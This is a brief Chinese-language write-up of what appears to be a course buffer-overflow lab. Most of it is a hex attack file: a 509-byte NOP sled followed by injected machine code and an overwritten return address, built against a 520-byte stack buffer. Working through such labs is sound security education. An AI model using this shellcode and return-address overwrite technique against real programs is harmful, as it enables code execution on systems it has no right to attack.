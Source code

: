 上面可以看到数组的正常空间是0x208（520字节），所以设计的攻击文件如下：
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 /* ‘90’*509 */
b8 05 79 6a 4d
8d 6c 24 18
68 f4 8d 04 08
c3
58 37 68 55
到这里实验三结束，这个实验能完成主要还是博主写的真的很详细，不然自己写不知到要摸索到什么时候。。。

